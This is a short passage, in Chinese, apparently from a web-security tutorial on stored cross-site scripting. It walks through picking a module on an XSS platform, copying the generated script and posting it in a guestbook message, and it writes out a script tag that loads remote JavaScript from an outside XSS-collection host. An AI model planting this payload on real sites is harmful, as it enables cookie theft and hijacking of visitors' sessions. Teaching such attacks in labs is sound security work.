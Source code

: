 ![image-20240127093611542](04.xss/image-20240127093611542.png)

- 选择需要的功能模块

![image-20240127093614133](04.xss/image-20240127093614133.png)

- 获取xss脚本

![image-20240127093617539](04.xss/image-20240127093617539.png)

```html
<script src=http://xss.iproute.cn/0Esg1g?1632111988></script>
```
### 插入xss代码
在留言板中进行留言，留言的内容中必须包含xss脚本